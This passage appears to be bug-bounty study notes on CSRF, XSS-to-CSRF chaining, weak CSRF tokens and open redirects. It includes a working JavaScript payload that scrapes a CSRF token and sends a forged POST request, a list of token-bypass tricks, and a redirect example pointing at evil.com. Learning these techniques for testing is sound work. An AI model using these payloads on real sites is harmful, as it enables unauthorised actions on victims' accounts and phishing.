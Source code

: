 #### CSRF POST Based
Most apps nowadays preform actions through `POST` requests.

## XSS and CSRF chaining
We sometimes may not be able to create cross-site requests due to same origin restriction.
If this is the case we need to chain XSS and CSRF

Sites that possess anti csrf measures(through server-config, not possible to spot) and stored XSS

as malicious cross-site requests are blocked due to same origin protections we can still preform CSRF via XSS. 

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
```

We create a Javascript request that mimics the HTML request and then store that in a XSS

## Exploiting Weak CSRF Tokens
often webapps do not employ secure token generation algorithms.
often CSRF tokens are just hashed versions of usernames.

We can then just check if the md5 hash matches the username.

## Additional CSRF Protection Bypasses
- Making CSRF token null value %00
- Random CSRF token equal to length 
- Use another Sessions's CSRF token
- Delete the CSRF Token or send blank token

## Open Redirect 
An open redirect occurs when we can redirect a victim to an attacker-controlled website by abusing a legitimate applications redirect functionality.

Attacker specifies website under their control in a redirection of a legitimate website.
Useful to trick a victim into visiting a website through a website they trust.

The malicious URL an attacker would send leveraging the Open Redirect vulnerability would look as follows: `trusted.site/index.php?url=https://evil.com`

Make sure you check for the following URL parameters when bug hunting, you'll often see them in login pages. Example: `/login.php?redirect=dashboard`
